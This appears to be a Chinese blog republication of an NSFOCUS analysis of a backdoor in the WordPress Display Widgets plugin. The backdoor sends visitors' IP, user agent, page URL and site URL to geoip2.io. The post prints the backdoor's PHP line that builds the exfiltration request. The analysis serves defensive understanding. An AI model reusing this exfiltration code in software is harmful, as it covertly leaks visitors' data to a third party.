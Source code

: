 ```yaml
---
title: WordPress的Display Widgets插件后门分析
date: 2017-09-15 15:30:47
tags: web漏洞分析
categories: 技术

top_img: https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/php.jpg
---
```


Display Widgets是WordPress一款插件，大约有200,000站点在使用该插件。最近，Display Widgets被发现存在有后门代码。该后门用于上传数据到第三方服务器，上传的数据包括用户IP地址，UA标识等。本文是对此后门的技术分析。

<!--more-->

## 后门分析

Display Widgets安装后如下图

** ![](http://blog.nsfocus.net/wp-content/uploads/2017/09/6f7efd8d362095b06add06300699d152.png)**

在没有安装Display Widgets插件，Widgets原来的样子

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/e2509aac2db597ea58b6aef3546c9d0c.png)

Display Widgets插件开启后的样子

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/40ef6b1571d2a66c88c48e2755e85553.png)

Display Widgets插件扩展了小工具的功能.

虽然这个插件是在后台进行操作配置的，但是我们在浏览wordpress前端网页时，这个插件仍然可被加载.

我们访问一下wordpress文章页面，并在后门处下断

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/1a0f108099c56002441f725d7804acb2.png)

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/70a49c9b17f9418d5234db3e3aee3fab.png)

在后门文件上下断点，访问前端文章页面，被断下，证明此时后门已经加载了。

下面我们分析下这个后门。

这个后门文件名为geolocation.php，在插件安装后位于wp-content/plugins/display-widgets/文件夹中

发现代码中有多处wp_remote_get()方法：

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/a100bea80b8b74c45ae65fb027a3007c.png)

这个方法是用来向外发送get请求的，如下图所示：

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/9ab6c5489de13641cece3f0546cf1c21.png)

而且插件代码调用这个方法向外发送一个可疑的request_url参数，

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/53782c0d853c4929930720b1f985d95f.png)

$request_url = 'http://geoip2.io/api/update/?url=' . _urlencode_( self::get_protocol() . $_SERVER[ 'HTTP_HOST' ] . $_SERVER[ 'REQUEST_URI' ] ) . '&amp;agent=' . _urlencode_( self::get_user_agent() ) . '&amp;geo=true&amp;p=9&amp;v=0&amp;ip=' . _urlencode_( $_SERVER[ 'REMOTE_ADDR' ] ) . '&amp;siteurl=' . _urlencode_( get_site_url() );

因此这处怀疑是一处后门。

我们分析下这个request_url参数都向外发送了什么，下面具体分析下：

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/50af7f673213b16417f0aa6290d2ec02.png)

request_url这个参数拼接了一个地址，并向这个地址通过get主要提交了url参数、agent参数和siteurl参数。

我们看一下这三个参数中泄露了什么信息

**先看url****参数中：**

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/f22cb75bb40b49ed3ee4ab06f71c4e4b.png)

参数中的第一处调用了get_protocol()方法，，我们看下get_protocol方法，如下所示：

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/0bc903e80ce4d5ee28a9757324f5c8fe.png)

这个方法是用来判断网址是否是https的

然后紧接着拼接了一个$_SERVER[ 'HTTP_HOST' ] 和$_SERVER[ 'REQUEST_URI' ]组成了url参数

**再看agent****参数中：**

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/87af809283644f1b9a86d5d0e17ee9f3.png)

包含了user_agent和$_SERVER[ 'REMOTE_ADDR' ]

get_user_agent方法如下所示，这个方法返回了$_SERVER[ 'HTTP_USER_AGENT' ] 的值

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/0c4c0b4eeea0b2faef852eead31568cb.png)

**最后看siteurl****参数中：**

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/1163b4162e19a41a6f663fbe050350bd.png)

包含了网站的地址。

这些信息最终通过wp_remote_get方法被发送给了[http://geoip2.io](http://geoip2.io)这个站，如下图所示

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/bb3fe8542d80a2a0a86ba92d1b5b2a4d.png)

那代码中一共有多少处发送请求的地方呢？

一共用三处，这三处发送的内容一样，就是上文所分析的内容。

首先第一处在get_country方法

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/eddf14e841860555304ff5cadd78721c.png)

这个方法在display-widgets.php（插件主文件）中show_geolocation方法中被使用

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/c82dd71a1726ca6ffe3156832907b5fd.png)

第二处、第三次都在在check_query_string方法中，如下代码：

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/4ff5ad5b8ebf19cc55149c3618abf715.png)

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/344972d15831b3a29c45032474463074.png)

check_query_string方法在wp动作执行时被触发时被调用，如下图

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/1ab63e04e1bf5d775326d93c16401bf0.png)

而Wp动作意思是在wp项目被启动

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/69b8e0ee6fc49c154ba441dfd405fd8f.png)

另外，这个文件中还有个get_remote_ip方法，但是这个并没有被调用，

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/126a377ea229d9dba12e9980931ce2b0.png)

&nbsp;

虽然没有被调用，但仍然可以看出这个方法是返回$_SERVER[ 'REMOTE_ADDR' ]值用的，如下图，因为是本地测试，值是127.0.0.1

![](http://blog.nsfocus.net/wp-content/uploads/2017/09/615866e907208464e0dd84ce681b9984.png)

## <span id="i-14" class="ez-toc-section">声 明</span>

本安全公告仅用来描述可能存在的安全问题，绿盟科技不为此安全公告提供任何保证或承诺。由于传播、利用此安全公告所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，绿盟科技以及安全公告作者不为此承担任何责任。绿盟科技拥有对此安全公告的修改和解释权。如欲转载或传播此安全公告，必须保证此安全公告的完整性，包括版权声明等全部内容。未经绿盟科技允许，不得任意修改或者增减此安全公告内容，不得以任何方式将其用于商业目的。

## <span id="i-15" class="ez-toc-section">关于绿盟科技</span>

北京神州绿盟信息安全科技股份有限公司（简称绿盟科技）成立于2000年4月，总部位于北京。在国内外设有30多个分支机构，为政府、运营商、金融、能源、互联网以及教育、医疗等行业用户，提供具有核心竞争力的安全产品及解决方案，帮助客户实现业务的安全顺畅运行。

基于多年的安全攻防研究，绿盟科技在网络及终端安全、互联网基础安全、合规及安全管理等领域，为客户提供入侵检测/防护、抗拒绝服务攻击、远程安全评估以及Web安全防护等产品以及专业安全服务。

北京神州绿盟信息安全科技股份有限公司于2014年1月29日起在深圳证券交易所创业板上市交易，股票简称：绿盟科技，股票代码：300369。

如果您需要了解更多内容，可以
加入QQ群：570982169
直接询问：010-68438880

&nbsp;